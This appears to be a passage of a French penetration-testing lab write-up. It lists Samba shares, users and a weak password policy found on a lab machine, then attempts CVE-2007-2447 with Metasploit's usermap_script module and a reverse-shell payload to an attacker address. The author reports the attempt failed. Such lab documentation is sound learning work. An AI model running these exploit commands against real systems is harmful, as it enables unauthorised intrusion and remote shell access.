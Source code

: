 Résultats obtenus :

- **Partages détectés :**
  - `print$` → Partage système (drivers).
  - `public` → Partage déclaré comme "WWW", mais accès refusé (DENIED).
  - `IPC$` → Partage technique de communication, non exploitable directement.

- **Utilisateurs identifiés :**
  - `chewbacca` (RID 1000)
  - `nobody`
  - Groupes locaux détectés : Administrators, Users, Guests, Power Users, etc.

- **Politique de mot de passe :**
  - Longueur minimale : 5 caractères.
  - Complexité désactivée (faible niveau de sécurité).
  - Aucun verrouillage de compte après tentatives multiples.

➡️ Ces informations montrent que, même si aucun partage accessible n’est exploitable directement, il est possible de **récupérer des usernames valides** et de constater une **politique de mot de passe faible**, ce qui augmente les risques de compromission via des attaques par bruteforce sur d’autres services.

#### 🚀 Étape 3.1 – Exploitation #1 : CVE-2007-2447 (usermap_script)
Exécution de commandes via `username map script` (vieux Samba 3.0.x — exploite NetBIOS/port 139).

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.32
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.1.30
set LPORT 4444
run
```

**Résultat obtenu :**
![alt text](image-11.png)

**Analyse :**
- Cet exploit cible **Samba 3.0.x** via **port 139**.
- Or, sur la cible, **139/tcp n’est pas ouvert** → le module ne peut pas fonctionner.
- **Conclusion partielle :** CVE-2007-2447 **non exploitable** dans cette configuration.
